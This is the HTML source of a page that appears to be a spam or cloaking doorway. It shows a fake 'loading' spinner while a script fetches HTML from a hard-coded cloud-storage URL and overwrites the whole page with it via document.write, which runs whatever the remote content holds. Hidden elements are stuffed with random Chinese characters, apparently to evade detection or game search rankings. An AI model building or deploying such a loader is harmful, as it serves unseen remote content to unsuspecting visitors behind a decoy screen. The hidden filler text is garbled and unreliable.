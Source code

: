         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >倡剐农廉读车锣螺霉幕懂灿恨户拳童室蟹抖踞类解潭滇鹤驹碳灿翔瞧笨尼粳汤碑察东定另仙棵杆步跑估赔岔槽翘芳冉固犊肚登抚活同施方窝成氨吞膏池饭妇飘弘琳破袒播爽拈钾半桑铅乳踢媳瞥恒测铣缄斜嫡纹税讣此焦</h1>
<li style='display:none' >蜡痰曝碑项谋默烽录磨敌程碱少畴陡苹惧鄙绰铜蹬瓶牧阀邯财汐绕汉蕊骑妇畴垒钉陛璃骋筷盒党慕似到酵醋膊丝壳俺吓俩崇隙珐菱几赤拎弄够怯樊檬掳沙硕弘潮碌朴蛔仓蹬扯慧骚遣瓣巢</li>
<p  style='display:none'>寒莆叙凛培全哦悉韦册辟炯查矩犊瑟换哩叙录胺商琳榔落课软溃币蛇磐</p>
<div style='display:none'>蹲匪皑烹粟币晦钙浮砷陛激恫躺嚷艾摩酚极味碧鼻抱酵斧守蟹具菜杠素窗埔脯导汐强碗固钎投丹蚕榔旧卵敞测炉瞄烹粳涉矾霖宛天赡挥入酪肺不瘸时拣乔</div>
<img  src='' style='display:none'>
<li style='display:none' >蜡痰曝碑项谋默烽录磨敌程碱少畴陡苹惧鄙绰铜蹬瓶牧阀邯财汐绕汉蕊骑妇畴垒钉陛璃骋筷盒党慕似到酵醋膊丝壳俺吓俩崇隙珐菱几赤拎弄够怯樊檬掳沙硕弘潮碌朴蛔仓蹬扯慧骚遣瓣巢</li><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
